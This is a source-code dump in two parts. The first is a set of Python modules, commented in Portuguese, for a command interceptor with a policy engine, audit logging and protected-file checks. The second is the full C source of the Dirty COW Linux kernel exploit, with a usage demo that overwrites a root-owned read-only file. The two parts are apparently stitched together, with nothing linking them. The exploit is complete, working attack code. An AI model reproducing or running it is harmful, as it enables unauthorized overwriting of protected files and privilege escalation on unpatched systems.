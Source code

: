     # command_interceptor.py
    #!/usr/bin/env python3
    import os
    import subprocess
    from logger import AuditLogger
    from file_protector import FileProtector
    from policy_engine import PolicyEngine

    class CommandInterceptor:
    """
    Intercepta a execução de comandos privilegiados.
    """
    def __init__(self, policy_engine=None, logger=None, file_protector=None):
        self.policy_engine = policy_engine or PolicyEngine()
        self.logger = logger or AuditLogger()
        self.file_protector = file_protector or FileProtector()
        
    def intercept(self, command, args):
        user = os.getenv('USER') or 'unknown'
        # Verificação de políticas
        if not self.policy_engine.is_command_allowed(user, command, args):
            self.logger.log(user, command, args, 'DENIED')
            print(f'Comando {command} negado pela política.')
            return 1
        # Verificação de ficheiros protegidos
        for arg in args:
            if self.file_protector.is_protected(arg):
                self.logger.log(user, command, args, 'DENIED')
                print(f'O acesso ao ficheiro {arg} está protegido.')
                return 1
        # Execução do comando
        try:
            resultado = subprocess.run(
                [command] + args,
                check=True,
                capture_output=True,
                text=True
            )
            self.logger.log(user, command, args, 'SUCCESS')
            print(resultado.stdout)
            return 0
        except subprocess.CalledProcessError as e:
            self.logger.log(user, command, args, f'ERROR_{e.returncode}')
            print(e.stderr)

            # logger.py
    #!/usr/bin/env python3
    import logging
    
    class AuditLogger:
    """
    Regista todas as tentativas de execução de comandos privilegiados.
    """
    def __init__(self, logfile='/var/log/tef_audit.log'):
        logging.basicConfig(
            filename=logfile,
            level=logging.INFO,
            format='%(asctime)s %(message)s'
        )
        self.logger = logging.getLogger('TEF')
    def log(self, user, command, args, result):
        """
        Regista no ficheiro de log o utilizador, comando, argumentos e resultado.
        """
        self.logger.info(f'User={user} CMD={command} ARGS={args} RESULT={result}')



        # file_protector.py
    #!/usr/bin/env python3
    import os

    class FileProtector:
    """
    Define ficheiros com restrições específicas.
    """
    def __init__(self, protected_paths=None):
        # Lista de caminhos absolutos protegidos
        self.protected_paths = protected_paths or ['/opt/confidencial']
    def is_protected(self, path):
        abs_path = os.path.abspath(path)
        return abs_path in self.protected_paths

        # policy_engine.py
    #!/usr/bin/env python3

    class PolicyEngine:
    """
    Aplica as políticas definidas no ficheiro de configuração.
    """
    def __init__(self, config_file='/etc/tef_policy.conf'):
        self.policies = self.load_policies(config_file)
    def load_policies(self, config_file):
        policies = {}
        try:
            with open(config_file) as f:
                for line in f:
                    line = line.strip()
                    if line and not line.startswith('#'):
                        cmd, rule = line.split('=')
                        policies[cmd.strip()] = rule.strip()
        except FileNotFoundError:
            pass
        return policies

    def is_command_allowed(self, user, command, args):
        # Se existir uma entrada "comando=deny", nega automaticamente
        if command in self.policies and self.policies[command] == 'deny':
            return False
        return True

        # tef_model.py
    #!/usr/bin/env python3
    import sys
    from logger import AuditLogger
    from file_protector import FileProtector
    from policy_engine import PolicyEngine
    from command_interceptor import CommandInterceptor
    
    class TEFModel:
    """
    Fábrica do modelo TEF: junta todos os componentes e executa o interceptor.
    """
    def __init__(self):
        self.logger = AuditLogger()
        self.file_protector = FileProtector()
        self.policy_engine = PolicyEngine()
        self.interceptor = CommandInterceptor(
            policy_engine=self.policy_engine,
            logger=self.logger,
            file_protector=self.file_protector
        )
    def run(self):
        if len(sys.argv) < 2:
            print('Uso: tef_model.py <comando> [args...]')
            exit(1)
        command = sys.argv[1]
        args = sys.argv[2:]
        exit(self.interceptor.intercept(command, args))

    if __name__ == '__main__':
        TEFModel().run()


       /*
    ####################### dirtyc0w.c #######################
    $ sudo -s
    # echo this is not a test > foo
    # chmod 0404 foo
    $ ls -lah foo
    -r-----r-- 1 root root 19 Oct 20 15:23 foo
    $ cat foo
    this is not a test
    $ gcc -pthread dirtyc0w.c -o dirtyc0w
    $ ./dirtyc0w foo m00000000000000000
    mmap 56123000
    madvise 0
    procselfmem 1800000000
    $ cat foo
    m00000000000000000
    ####################### dirtyc0w.c #######################
    */
    #include <stdio.h>
    #include <sys/mman.h>
    #include <fcntl.h>
    #include <pthread.h>
    #include <unistd.h>
    #include <sys/stat.h>
    #include <string.h>
    #include <stdint.h>
    
    void *map;
    int f;
    struct stat st;
    char *name;
     
    void *madviseThread(void *arg)
    {
      char *str;
      str=(char*)arg;
      int i,c=0;
      for(i=0;i<100000000;i++)
      {
    
        c+=madvise(map,100,MADV_DONTNEED);
      }
      printf("madvise %d\n\n",c);
    }
     
    void *procselfmemThread(void *arg)
    {
      char *str;
      str=(char*)arg;
    
      int f=open("/proc/self/mem",O_RDWR);
      int i,c=0;
      for(i=0;i<100000000;i++) {
    
        lseek(f,(uintptr_t) map,SEEK_SET);
        c+=write(f,str,strlen(str));
      }
      printf("procselfmem %d\n\n", c);
    }
     
     
    int main(int argc,char *argv[])
    {
    
      if (argc<3) {
      (void)fprintf(stderr, "%s\n",
          "usage: dirtyc0w target_file new_content");
      return 1; }
      pthread_t pth1,pth2;
    
      f=open(argv[1],O_RDONLY);
      fstat(f,&st);
      name=argv[1];
    
      map=mmap(NULL,st.st_size,PROT_READ,MAP_PRIVATE,f,0);
      printf("mmap %zx\n\n",(uintptr_t) map);
    
      pthread_create(&pth1,NULL,madviseThread,argv[1]);
      pthread_create(&pth2,NULL,procselfmemThread,argv[2]);
    
      pthread_join(pth1,NULL);
      pthread_join(pth2,NULL);
      return 0;
    }








